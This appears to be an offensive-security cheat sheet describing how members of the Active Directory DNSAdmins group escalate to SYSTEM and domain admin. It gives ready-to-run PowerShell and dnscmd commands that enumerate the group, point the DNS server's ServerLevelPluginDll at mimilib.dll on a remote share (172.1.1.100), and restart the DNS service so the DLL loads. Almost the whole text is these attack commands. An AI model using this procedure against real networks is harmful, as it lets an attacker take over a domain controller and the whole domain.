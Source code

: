 It is possible for the members of the DNSAdmins group to load arbitrary DLLs with the privileges of dns.exe(SYSTEM). In case the DC also serves as DNS, this will provide us escalation to DA. Need privileges to restart the DNS service.


Enumerate members of the DNS Admins group

```powershell
#PowerView
Get-NetGroupMember -GroupName "DNSAdmins"


#Using ActiveDirectory module
Get-ADGroupMember -Identity DNSAdmins
```

Configure DLL

```powershell
#From the privileges of DNSAdmins group member, configure DLL using dnscmd.exe (needs RSAT DNS):
dnscmd dc /config /serverlevelplugindll \\172.1.1.100\dll\mimilib.dll 


#Using DNSServer module (needs RSAT DNS):
$dnsettings = Get-DnsServerSetting -ComputerName dc -Verbose -All
$dnsettings.ServerLevelPluginDll ="\\172.1.1.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName dc -Verbose
```

Restart DNS service

```powershell
sc \\dc stop dns
sc \\dc start dns
```